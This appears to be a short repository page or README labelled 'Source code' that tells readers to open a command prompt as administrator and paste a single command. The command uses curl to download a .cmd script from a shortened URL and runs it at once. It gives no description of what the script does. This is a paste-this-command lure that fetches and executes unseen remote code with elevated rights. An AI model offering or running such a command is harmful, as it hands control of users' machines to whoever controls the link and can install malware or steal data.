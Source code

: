 <h1> - Run CMD As Admin </h1>
<h1> - Copy Script Below </h1>
<h1> - curl -L shorturl.at/gQzGr -o gQzGr.cmd & gQzGr.cmd </h1>>

